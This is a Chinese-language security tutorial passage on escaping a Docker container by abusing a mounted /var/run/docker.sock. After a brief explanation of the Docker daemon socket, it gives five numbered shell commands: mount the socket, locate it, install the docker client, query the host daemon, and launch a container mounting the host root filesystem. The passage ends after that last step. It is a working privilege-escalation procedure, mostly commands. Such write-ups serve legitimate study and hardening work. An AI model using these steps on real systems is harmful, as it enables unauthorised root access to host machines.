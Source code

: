 ## docker.sock 挂载逃逸

Docker 采用 C/S 架构，我们平常使用的 Docker 命令中，docker 即为 client，Server 端的角色由 docker daemon(docker 守护进程) 扮演，二者之间通信方式有以下 3 种：

```bash
1, unix:///var/run/docker.sock
2, tcp://host:port
3、fd://socketfd
```

其中使用 docker.sock 进行通信为默认方式，当容器中进程需在生产过程中与 Docker 守护进程通信时，容器本身需要挂载/var/run/docker.sock 文件。  
本质上而言，能够访问 docker socket 或连接 HTTPS API 的进程可以执行 Docker 服务能够运行的任意命令，以 root 权限运行的 Docker 服务通常可以访问整个主机系统。  
因此，当容器访问 docker socket 时，我们可通过与 docker daemon 的通信对其进行恶意操纵完成逃逸。若容器 A 可以访问 docker socket，我们便可在其内部安装 client（docker），通过 docker.sock 与宿主机的 server（docker daemon）进行交互，运行并切换至不安全的容器 B，最终在容器 B 中控制宿主机。

### 逃逸

1、运行一个挂载/var/run/的容器

```bash
docker run -it -v /var/run/:/host/var/run/ 5d2df19066ac /bin/bash
```

2、寻找下挂载的 sock 文件

```bash
find / -name docker.sock
```

[![](assets/1708095739-8ee1f36109c33bea69d50bfe687bcf48.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230428211419-95c4e2f4-e5c6-1.png)  
3、在容器内安装 client，即 docker

```bash
apt-get update
apt-get install docker.io
```

4、查看宿主机 docker 信息

```bash
docker -H unix:///host/var/run/docker.sock info
```

5、运行一个新容器并挂载宿主机根路径

```bash
docker -H unix:///host/var/run/docker.sock run -v /:/test -it ubuntu:14.04 /bin/bash
```
